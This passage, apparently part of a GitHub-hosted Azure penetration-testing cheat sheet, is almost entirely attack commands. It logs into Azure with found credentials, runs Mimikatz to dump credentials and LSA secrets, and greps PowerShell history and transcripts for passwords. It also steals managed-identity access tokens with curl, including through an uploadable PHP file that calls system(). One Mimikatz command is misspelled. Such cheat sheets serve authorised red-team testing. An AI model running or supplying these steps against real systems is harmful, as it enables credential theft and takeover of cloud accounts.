 #### Connect with the credentials found and enumerate further!
```
$password = ConvertTo-SecureString <PASSWORD> -AsPlainText -Force
$creds = New-Object System.Management.Automation.PSCredential('<USERNAME>', $password)

Connect-AzAccount -Credential $creds
```

### Mimikatz
```
Invoke-Mimikayz -Dumpcreds
```

#### Dump service account passwords
```
Invoke-Mimikatz -Command '"token::elevate" "lsadump::secrets"'
```

### Powershell History
```
Get-Childitem -Path C:\Users\ -Force -Include ConsoleHost_history -Recurse -ErrorAction SilentlyContinue
cat <FILE> | select-string password
cat <FILE> | select-string secure
```

### Transcript
```
type C:\Transcripts\20210422\PowerShell_transcript.DESKTOP-M7C1AFM.6sZJrDuN.20210422230739.txt
```

## Managed Identity
#### Check for managed identity
- print environment variables and check for IDENTITY_HEADER and IDENTITY_ENDPOINT 
```
env
```

#### Request access token for managed identity
```
curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER
```

#### Request access token for managed identity html file upload
```
<?php 

system('curl "$IDENTITY_ENDPOINT?resource=https://management.azure.com/&api-version=2017-09-01" -H secret:$IDENTITY_HEADER');

?>
```
